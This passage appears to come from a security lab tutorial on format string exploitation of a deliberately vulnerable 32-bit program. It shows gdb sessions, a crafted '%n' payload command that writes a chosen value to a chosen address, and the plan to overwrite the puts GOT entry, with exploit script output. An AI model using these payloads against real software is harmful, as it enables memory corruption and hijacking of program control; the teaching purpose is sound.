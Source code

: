 ``` {.code .bash}
(gdb) x/i $eip
=> 0xf7e580a2 <vfprintf+17906>:    mov    %edx,(%eax)
(gdb) info registers $edx $eax
edx            0x202    1596
eax            0x44434241   1145258561
(gdb) quit
```

Bingo. We have memory write. The vulnerable code tried to write at the address `0x44434241` ("ABCD" little endian) the value 1596. The value 1596 is the amount of data wrote so far by `printf`(`“ABCD” + 199 * “AAAAAAAA”`).

Right now, our input string has 1605 bytes (1604 with a `\n` at the end). But we can further compress it, thus making the value that we write independent of the length of the input.

``` {.code .bash}
$ ./format "$(python -c 'import sys; sys.stdout.buffer.write("ABCD" + "A" * 1588 + "%99x" + "%126$08n")')"
Segmentation fault (core dumped)
$ gdb ./format -c core
(gdb) info registers $edx $eax
edx            0x261    1691
eax            0x44434241   1145258561
(gdb) quit
```

Here we managed to write 1691 (4+1588+99). Note we should keep the number of bytes before the format string the same. Which means that if we want to print with a padding of 100 (three digits) we should remove one `A`. You can try this by yourself.

**How far can we go?** Probably we can use any integer for specifying the number of bytes which are used for a format, but we don\'t need this; moreover specifying a very large padding is not always feasible, think what happens when printing with `snprintf`. 255 should be enough.

Remember, we want to write a value to a certain address. So far we control the address, but the value is somewhat limited. If we want to write 4 bytes at a time we can make use of the endianess of the machine. **The idea** is to write at the address n and then at the address n+1 and so on.

Lets first display the address. We are using the address `0x804c014`. This address is the address of the got entry for the puts function. Basically, we will override the got entry for the puts.

Check the `exploit.py` script from the task directory, read the commends and understand what it does.

``` {.code .bash}
$ python exploit.py
[*] 'format'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './format': pid 29030
[*] Switching to interactive mode
[*] Process './format' stopped with exit code 0 (pid 29030)
\x14\x04\x15\x04\x17\x04\x18\x04 804c014  804c015  804c017  804c018 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
This is the most useless and insecure program!
```
